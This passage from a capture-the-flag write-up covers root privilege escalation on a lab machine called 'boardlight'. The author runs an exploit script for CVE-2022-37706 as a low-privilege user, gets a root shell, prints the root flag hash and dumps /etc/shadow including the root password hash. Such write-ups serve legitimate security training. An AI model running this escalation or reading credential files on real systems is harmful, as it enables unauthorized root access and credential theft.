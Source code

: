 We moved the `exploit code` to the box, made it executable and fired it up.

```c
larissa@boardlight:~$ chmod +x exploit.sh
```

```c
larissa@boardlight:~$ ./exploit.sh 
CVE-2022-37706
[*] Trying to find the vulnerable SUID file...
[*] This may take few seconds...
[+] Vulnerable SUID binary found!
[+] Trying to pop a root shell!
[+] Enjoy the root shell :)
mount: /dev/../tmp/: can't find in /etc/fstab.
#
```

## root.txt

```c
# cat /root/root.txt
316437795de5bf4e758e2f479bb59412
```

## Post Exploitation

```c
# cat /etc/shadow
root:$6$h9/xKUsFWX90kjQc$qcBeHXPiRHqbF0NgNxhPiZzYS1DiH4UnQc2kcshKtYEDPbjDe3E5qihEbapIJk8fAxRaj3T7EGReRQYiFIBHO1:19845:0:99999:7:::
daemon:*:18858:0:99999:7:::
bin:*:18858:0:99999:7:::
sys:*:18858:0:99999:7:::
sync:*:18858:0:99999:7:::
games:*:18858:0:99999:7:::
man:*:18858:0:99999:7:::
lp:*:18858:0:99999:7:::
mail:*:18858:0:99999:7:::
news:*:18858:0:99999:7:::
uucp:*:18858:0:99999:7:::
proxy:*:18858:0:99999:7:::
www-data:*:18858:0:99999:7:::
backup:*:18858:0:99999:7:::
list:*:18858:0:99999:7:::
irc:*:18858:0:99999:7:::
gnats:*:18858:0:99999:7:::
nobody:*:18858:0:99999:7:::
systemd-network:*:18858:0:99999:7:::
systemd-resolve:*:18858:0:99999:7:::
systemd-timesync:*:18858:0:99999:7:::
messagebus:*:18858:0:99999:7:::
syslog:*:18858:0:99999:7:::
_apt:*:18858:0:99999:7:::
tss:*:18858:0:99999:7:::
uuidd:*:18858:0:99999:7:::
tcpdump:*:18858:0:99999:7:::
avahi-autoipd:*:18858:0:99999:7:::
usbmux:*:18858:0:99999:7:::
dnsmasq:*:18858:0:99999:7:::
cups-pk-helper:*:18858:0:99999:7:::
speech-dispatcher:!:18858:0:99999:7:::
avahi:*:18858:0:99999:7:::
kernoops:*:18858:0:99999:7:::
saned:*:18858:0:99999:7:::
```